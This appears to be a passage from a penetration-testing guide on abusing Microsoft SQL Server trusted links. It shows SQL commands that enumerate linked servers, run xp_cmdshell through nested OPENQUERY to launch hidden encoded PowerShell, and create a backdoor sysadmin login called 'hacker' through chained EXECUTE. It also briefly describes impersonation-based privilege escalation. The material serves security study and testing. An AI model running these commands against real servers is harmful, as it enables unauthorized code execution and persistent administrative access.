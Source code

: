 <img width="854" height="229" alt="image" src="https://github.com/user-attachments/assets/4a4f2401-9796-4df3-a95e-e843e7ecf873" />

#### 1) Find Trustable Links

    select * from master..sysservers

<img width="630" height="234" alt="image" src="https://github.com/user-attachments/assets/bb702383-27f4-4e63-b4ff-3065d7443979" />

#### 2) Execute queries in trustable link

Execute queries through the link (example: find more links in the new accessible instance):

    select * from openquery("dcorp-sql1", 'select * from master..sysservers')

Check where double and single quotes are used, it's important to use them that way.

<img width="696" height="232" alt="image" src="https://github.com/user-attachments/assets/7fbf9de9-8897-4e72-bda5-4a5108d1f8a0" />

You can continue these trusted link chain forever manually.

#### 3) 1st level RCE

    SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah'''

#### 4) 2nd level RCE

    SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')

If you cannot perform actions like exec xp_cmdshell from openquery() try with the EXECUTE method.

# Manual - EXECUTE

You can also abuse trusted links using EXECUTE:

#### 1) Create user and give admin privileges

    EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"

    EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"

# Local Privilege Escalation

The MSSQL local user usually has a special type of privilege called SeImpersonatePrivilege. This allows the account to "impersonate a client after authentication".

A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue or man-in-the-middle service that the attacker creates. This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.
